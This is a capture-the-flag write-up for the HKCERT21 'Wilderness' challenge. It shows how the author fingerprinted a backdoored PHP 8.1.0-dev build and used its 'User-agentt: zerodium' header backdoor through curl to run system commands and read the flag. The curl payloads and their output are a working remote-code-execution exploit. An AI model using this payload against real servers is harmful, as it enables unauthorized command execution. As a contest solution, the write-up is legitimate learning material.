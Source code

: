 # The Wilderness 荊棘海 (100 point, 39 solves, ★☆☆☆☆) [First blood 🩸]
---
Solved by: Kaiziron

### Description :
```
Mystiz likes PHP most. He has been programming in PHP at the time PHP 5 was released. Time flies and here comes PHP 8. He decided to craft a Docker image as a sandbox... What can go wrong?

http://chalp.hkcert21.pwnable.hk:28364/

Attachments
sea-of-thorns_e045a87b1909724e7292510354cc1f3b.zip
```
---
### Solution :

This challenge is easy to solve if you are familiar with the vulnerability, 

I did a hackthebox machine `Knife` with the same vulnerability not long ago, so I identified the vulnerability quickily and solved the challenge quickily in around 2 min after I discovered this challenge

After I see the description is about the PHP version, I immediately check for the PHP version the challenge is using

```
curl -i http://chalp.hkcert21.pwnable.hk:28364/
HTTP/1.1 200 OK
Host: chalp.hkcert21.pwnable.hk:28364
Date: Tue, 16 Nov 2021 06:07:19 GMT
Connection: close
X-Powered-By: PHP/8.1.0-dev
Content-type: text/html; charset=UTF-8

<h1>It Works!</h1>
```
It is using PHP 8.1.0-dev, which is known to be backdoored

![](https://i.imgur.com/XOrWHpj.png)

This is the commit in github that added the backdoor

To exploit this, we can specify a HTTP request header "User-agentt" and set the value to be `zerodium<php code>` 

```
curl -H 'User-agentt: zerodiumsystem("ls -la");'  http://chalp.hkcert21.pwnable.hk:28364/
total 12
drwxr-xr-x 1 root root 4096 Nov  7 04:22 .
drwxr-xr-x 1 root root 4096 Nov  7 04:22 ..
-rw-r--r-- 1 root root   90 Nov  7 03:55 index.php
```

We can execute command using the system() function in php

So we can just read the index.php and get the flag

```
curl -H 'User-agentt: zerodiumsystem("cat index.php");'  http://chalp.hkcert21.pwnable.hk:28364/
<h1>It Works!</h1>
<?php // hkcert21{vu1n3r1b1li7ie5_m1gh7_c0m3_fr0m_7h3_5upp1y_ch41n} ?>
<h1>It Works!</h1>
```

### Flag :
`hkcert21{vu1n3r1b1li7ie5_m1gh7_c0m3_fr0m_7h3_5upp1y_ch41n}`